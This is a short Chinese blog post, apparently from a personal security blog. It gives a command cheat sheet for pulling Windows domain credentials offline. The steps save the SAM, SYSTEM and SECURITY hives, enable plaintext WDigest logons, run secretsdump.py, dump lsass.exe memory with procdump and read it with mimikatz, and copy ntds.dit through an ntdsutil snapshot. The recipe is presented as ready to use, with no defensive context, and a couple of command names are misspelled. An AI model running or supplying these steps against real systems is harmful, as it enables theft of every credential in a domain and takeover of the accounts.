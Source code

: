 # 离线提取域控HASH的方法




## 1.注册表提取

提取文件，Windows Server 2003或者Win XP 及以前需要提升到system权限，以后只要Administrator权限即可。

```verilog
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security secruity.hive
```





本地获取：

```dockerfile
# 如果要提取明文，请修改注册表
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

# 破解hash
python ./secretsdump.py -sam ~/Desktop/sam.hive  -security ~/Desktop/security.hive -system ~/Desktop/system.hive  LOCAL
```



## 2.lsass.exe提取

```bash
procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz#privilege::debug
mimikatz#sekurlsa::minidump lsass.dmp
mimikatz#sekrulsa::logonpasswords full  

```









## 3.ntds.dit提取

```bash
ntdsutil snapshot "activate instance ntds" create quit quit
ntdsutil snapshot "mount {GUID}" quit quit
copy MOUNT_POINT\windows\ntds\ntds.dit c:\temp\ntds.dit
ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit

```















---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E7%A6%BB%E7%BA%BF%E6%8F%90%E5%8F%96%E5%9F%9F%E6%8E%A7hash%E7%9A%84%E6%96%B9%E6%B3%95/  

